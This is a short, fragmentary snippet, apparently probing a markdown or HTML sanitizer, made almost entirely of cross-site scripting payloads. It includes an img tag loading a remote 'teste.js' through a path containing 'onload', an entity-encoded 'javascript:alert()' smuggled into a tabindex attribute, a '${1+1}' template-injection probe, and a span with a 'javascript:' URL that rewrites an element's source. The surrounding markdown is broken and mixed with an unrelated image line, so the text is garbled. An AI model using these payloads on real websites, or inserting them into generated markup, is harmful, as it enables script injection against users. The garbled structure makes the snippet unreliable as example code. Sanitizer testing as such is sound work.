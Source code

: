 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

&#60;&#105;&#109;&#103;&#32;&#115;&#114;&#99;&#61;&#34;&#34;&#62;

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
